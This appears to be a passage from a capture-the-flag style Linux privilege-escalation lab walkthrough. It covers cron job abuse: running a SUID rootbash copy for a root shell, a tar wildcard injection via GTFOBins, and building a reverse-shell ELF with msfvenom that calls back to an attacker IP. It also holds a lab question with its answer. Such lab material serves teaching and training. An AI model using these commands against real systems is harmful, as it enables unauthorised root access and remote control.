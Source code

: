 Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p

user@debian:~$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# echo $SHELL
/bin/bash
rootbash-4.1# 

```

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

What is the value of the PATH variable in /etc/crontab?
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


Cron Jobs - Wildcards

View the contents of the other cron job script:

```
cat /usr/local/bin/compress.sh

user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
user@debian:~$ 

```

Note that the tar command is being run with a wildcard (_*_) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf


┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.2.77.171 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf

```
Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
